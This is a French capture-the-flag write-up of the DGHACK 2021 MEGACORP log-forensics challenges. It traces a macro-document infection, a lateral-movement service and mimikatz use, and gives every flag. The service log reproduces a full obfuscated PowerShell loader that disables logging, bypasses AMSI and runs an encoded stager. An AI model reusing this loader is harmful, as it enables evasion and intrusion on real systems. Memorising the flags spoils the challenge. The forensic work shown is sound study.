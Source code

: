 ## MEGACORP

https://www.dghack.fr/challenges/dghack/megacorp-1/
https://www.dghack.fr/challenges/dghack/megacorp-2/
https://www.dghack.fr/challenges/dghack/megacorp-3/

> L'entreprise MEGACORP, Organisme d'Importance Vitale a subi une attaque informatique.
> 
> Plusieurs agents ont déjà tenté en vain d'identifier l'intrusion (infection initiale, mouvement latéral, machines compromises), le temps nous est compté, mais fort heureusement l'entreprise nous a fourni un accès à leurs systèmes de collecte de logs basé sur Kibana (Username : dghack ; Password : dghack2021).
> 
> Nous comptons sur vous pour réussir là où les autres ont échoué au plus vite.

Challenge 1:
> Pouvez-vous retrouver le sha256 du fichier ayant initié la compromission dans le domaine ?

Challenge 2: 
> Pouvez-vous retrouver le nom du service ayant permis d'effectuer un pivot vers la machine DK2021002 ?

Challenge 3:
> Pouvez-vous retrouver le process GUID du programme ayant été utilisé pour la génération du golden ticket ?

Et nous avons un Kibana pour parcourir ces logs: http://kibana-tuazhu.inst.malicecyber.com/

Nous avons donc 3030 logs sur 50 minutes, qui semblent être issus d'un domaine où Windows règne. 
Je n'ai pas noté tous les éléments qui m'ont mené à la résolution, donc je ne vais présenter que les éléments principaux.  

À 16:05:14.993 nous avons le log du téléchargement d'un fichier docm.  Le SHA256 est le 1er flag (`DGA{3F0A801DEBE411DBCA3B572796116B56B527F85823FA84B03223CB68161D07BF}`).

```
File stream created:
RuleName: -
UtcTime: 2021-10-15 14:05:14.965
ProcessGuid: {4752ea04-8a9a-6169-8901-000000002800}
ProcessId: 3932
Image: C:\Program Files\Google\Chrome\Application\chrome.exe
TargetFilename: C:\Users\uri.cato\Downloads\cv_stagiaire.docm
CreationUtcTime: 2021-10-15 14:05:13.594
Hash: MD5=511B26079FE3F4B48242F64BD514433C,SHA256=3F0A801DEBE411DBCA3B572796116B56B527F85823FA84B03223CB68161D07BF,IMPHASH=00000000000000000000000000000000
Contents: -
```

À 16:08:27.328 l'ouverture de ce document sur DK2021001.

```
winlog.event_data.CommandLine
"C:\Program Files\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\uri.cato\Downloads\cv_stagiaire.docm" /o ""
```

À 16:19:33.571	un service installé qui semble contenir un shellcode.  Le nom du service nous donne le second flag (`DGA{tAdOaSoAfpmBCIRD}`). 

```
Un service a été installé sur le système.

Nom du service :  tAdOaSoAfpmBCIRD
Nom du fichier de service :  %COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c  $bIb4=((''{''+''0}crip''+''t{1''+''}loc{2''+''}Logging'')-f''S'',''B'',''k'');If($PSVersionTable.PSVersion.Major -ge 3){ $on=[Collections.Generic.Dictionary[string,System.Object]]::new(); $z5W_6=((''{1}nabl{2}Scri{0}''+''{3}Blo''+''ckL''+''og''+''ging''+'''')-f''p'',''E'',''e'',''t''); $oxZlX=[Ref].Assembly.GetType(((''{1}ystem.{3}ana{2}emen''+''t.{4}uto''+''mation''+''.{''+''5''+''}t''+''i{0}s''+'''')-f''l'',''S'',''g'',''M'',''A'',''U'')); $lcna=((''{1}na{2}l{3}''+''S''+''c{''+''0}i{4}tBlockI''+''n{''+''5}ocation''+''Logg''+''ing'')-f''r'',''E'',''b'',''e'',''p'',''v''); $mdYw=$oxZlX.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); $hGip=[Ref].Assembly.GetType(((''{6}{1''+''}''+''st{''+''9''+''}m.''+''{2}an''+''a{4''+''}''+''{9''+''}m{9}nt.{8}{''+''5''+''}''+''t''+''{7''+''}m''+''ati{''+''7''+''}n.''+''{8}m''+''si{3}ti{0}''+''s'')-f''l'',''y'',''M'',''U'',''g'',''u'',''S'',''o'',''A'',''e'')); if ($hGip) { $hGip.GetField(((''am{2}''+''i''+''{3''+''}''+''{''+''1}i{0}''+''Faile{''+''4''+''}'')-f''t'',''n'',''s'',''I'',''d''),''NonPublic,Static'').SetValue($null,$true); }; If ($mdYw) { $pRt=$mdYw.GetValue($null); If($pRt[$bIb4]){ $pRt[$bIb4][$lcna]=0; $pRt[$bIb4][$z5W_6]=0; } $on.Add($lcna,0); $on.Add($z5W_6,0); $pRt[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$bIb4]=$on; } Else { [Ref].Assembly.GetType(((''S''+''y{1}tem.''+''{4}anagem''+''ent.A''+''utomatio''+''n.S''+''cri''+''{0}t{5}{3}oc''+''{2}'')-f''p'',''s'',''k'',''l'',''M'',''B'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIAOyNaWECA7VWbW/aSBD+Xqn/waqQMCrB5qV{1}EqnSrU0MNIGYmHcOnRZ7sbesvcReh9Be//vNGhzSS3KXO6mWSPZlZnb''+''2mWdmdpVGrqA8Upbfwnvl+9s3yuGzcYxDRS2sppdlpZDy0nGrENeVz4o6R5{1''+''}Nk4eYRovzczONYxKJ/bzSIgIlCQmXjJJELSl/KuOA''+''xOTkevmVuEL5rhT+qLQYX2J2ENuZ2A2Ic''+''oI{2}T+5dcRdLryrOhlGhFn//vV{2}an1QXlYvbFLNE''+''LTq7RJCw4jFWLCk/SvLAwW5D1GKXujFP+EpUxjSq1yrDKMEr0gNrd6RLRMC9pAhXOV4mJ{2}KNI3knaWQvohZhaMfcRZ4XkyQplpW5ND9fLH5T54ezb9JI0JBUOpEgMd84JL6jLkkqbRx5jNyQ1QK0HBHTyF+US{2}B2x9dELUQpY2Xlv5hRe2SbI/daJfWxEkjZI{2}6VIZpPb{1}nlXsrIXq/4jJsy/{2}X49hwA5H5I8FY5a4KJ9fEZ1hwX8m+e7RBwV7V5QjPlz4peVrpwNBY83sG0MIhTUlo8gK0UvjbDqPxaa9VcFRS3/uwLLM1HnHqLo4GfQl9wl+ngTEq9zOQmWdGINHcRDqmbk1V9L{2}Rkx''+''UgGS{2}UX64GLavGwQbwmYcTHQsIsmfFE7SKk4kHXSCnzSIxc''+''CGsCXkHESz87s4+cWuxEXRICfvs5ULWwghQhufQhLXb56XIOQkWT4SQpK3YKOeqWFYdgRryygqKEHrZQKng2LB7d7aZMUBcnIje3KP0dz8O5Jo8SEacuhBYwGDgb4lLMJCRlpU09Yuwc6ufnF58FxMSMQfaApTsICKxIIBwhCRODqxk5ShW''+''H{2}E64YSQEmaxoWAz7UCIOOZIxDPvEK77kaZ4Ne+pLbHJQHv''+''kJAXcYF2VlRGMBNUj{2}LDn2v9x4Wn32/pgxOURIzTN{1}buyETIVCsJVEPY''+''CUQRILgMOKeWjghHxs7EuN+k67pjaCb9psO''+''5SM1rTa2cKvC79hd3VqC52H{1}N7hXddM7JZ1{2}ujW37qnPeR6Xzxy5owawrnoCNNG7T7VjUbgGvogG/vTYUdMO6g9CFym28225kwTnW7bY2lrb8N{1}NNoTHdXrjeu6vgb4prTqr5HXC+n2/grGUFOvr4xOYugddvHFvFmOa9ZszNpawwpWY544H6dNTd''+''POPN''+''zs7hAyuFfv7{2}bVG''+''z5ou6HR{2}Lh2ZjbW6AIhM7oYWQa/nBoxsrUR9{2}3O7GrUCX0TGZZLyaw/{1}Ix+3zLQsPX1{1}nmm+drZeIIDYzy''+''q0dlmchPA3Nq2+5ea3''+''uh45BufbQG4FkfYvwEZ36y5wQpkmu+R8b7HkxpeGxwZIGPNblErmG4sm8H+YFjjaMR6E4yuZj{1}L06pTu4HaOh+3fNQHcewbfYySu+a3plYdedwbf+hNV9powj5pTbNvBxN5Z20Tyr/bdvPSnVW37vWnhqHfm{2}EN2bLmaWfDUyPaXvr2ne/1x59u7nu7JZw71LTRO6DLfEgjUa8{1}Cmlj+kHW1rdvCmn3A0GPePN''+''S3+j{2}OAkwAz5BS8hT2+KxdajzNqdSQ1WzV8KaxBFh0Fyh/eb5gBjjrmwxWUeA9rZvOrIHDju''+''ZX8+NSsqDYOnYfPKl8/MZeAkZFmwrVyTyRVDW7+u6Dl1Dv9cbWS''+''K9/mYm3+xUMF''+''WWXWePzN40y0yDNbpSVPXXQwUPCwEV7mWwXsINzl5DPYIKuS8REj2Dc/YYu/x{2}D2w4YgegVeHqc/mmyEgCBk7IrVIQsus+7uIFxno{1}49fy5lDrAvjn/R{1}vjmv/sPsqLunlA0BP1n9eeNQrf{2}EGY0wFSDpQ{1}xnZPyeeh+KQLY/CnEUI0mF1+OQb+zoVJz14{1}2W{1}4y9+OYnn2QsAAA{0}{0}'')-f''='',''t'',''i'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
Type de service :  service en mode utilisateur
Type de démarrage du service :  Démarrage à la demande
Compte de service :  LocalSystem
```

Enfin, vers 16:29:22.501 nous avons un log de `mimikatz`, dont le GUID est notre troisième flag (`DGA{0FEEC322-9042-6169-8900-000000001D00}`).

```
Process Create:
RuleName: -
UtcTime: 2021-10-15 14:29:22.501
ProcessGuid: {0FEEC322-9042-6169-8900-000000001D00}
ProcessId: 3220
Image: C:\Users\Public\mimikatz.exe
FileVersion: 2.2.0.0
Description: mimikatz for Windows
Product: mimikatz
Company: gentilkiwi (Benjamin DELPY)
OriginalFileName: mimikatz.exe
CommandLine: .\mimikatz.exe
CurrentDirectory: C:\Users\Public\
User: NT AUTHORITY\SYSTEM
LogonGuid: {0FEEC322-8C65-6169-E703-000000000000}
LogonId: 0x3E7
TerminalSessionId: 1
IntegrityLevel: System
Hashes: MD5=BB8BDB3E8C92E97E2F63626BC3B254C4,SHA256=912018AB3C6B16B39EE84F17745FF0C80A33CEE241013EC35D0281E40C0658D9,IMPHASH=9528A0E91E28FBB88AD433FEABCA2456
ParentProcessGuid: {0FEEC322-902F-6169-8700-000000001D00}
ParentProcessId: 2980
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: C:\Windows\system32\cmd.exe
```

